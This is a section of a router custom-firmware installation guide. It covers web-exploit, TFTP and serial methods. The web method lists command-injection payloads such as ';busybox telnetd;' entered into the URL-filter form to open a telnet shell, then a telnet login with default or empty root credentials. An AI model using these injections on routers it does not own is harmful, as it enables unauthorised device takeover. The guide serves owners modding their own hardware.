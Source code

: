 
## Installation Methods

### Overview of Methods

**Three main installation approaches:**

1. **Web-based exploit** - Easiest, no hardware modification
2. **TFTP recovery** - Moderate difficulty, requires TFTP server
3. **Serial console** - Most reliable, requires UART access

**Recommendation:**
- Try Method 1 (web exploit) first if available
- Fall back to Method 2 (TFTP) if exploit doesn't work
- Use Method 3 (serial) as last resort or for maximum control

### Method 1: Web-Based Exploit (URL Filtering Bypass)

**This method exploits busybox telnetd via URL filtering vulnerability.**

**Prerequisites:**
- Stock firmware web interface access
- Network connection to router

#### Step 1: Enable Telnet via Exploit

**Access router web interface:**
```
http://192.168.0.1
Login with admin credentials
```

**Navigate to URL filtering (path varies by firmware version):**
```
Security → URL Filter → Add Filter
```

**Exploit payload (example):**
```
URL to block: ;busybox telnetd;
```

**Or try alternate payloads:**
```
;/bin/busybox telnetd;
$(busybox telnetd)
`busybox telnetd`
```

**Apply and save settings**

#### Step 2: Access via Telnet

```bash
# From your computer
telnet 192.168.0.1

# Should get login prompt
# Try default credentials or root with no password
```

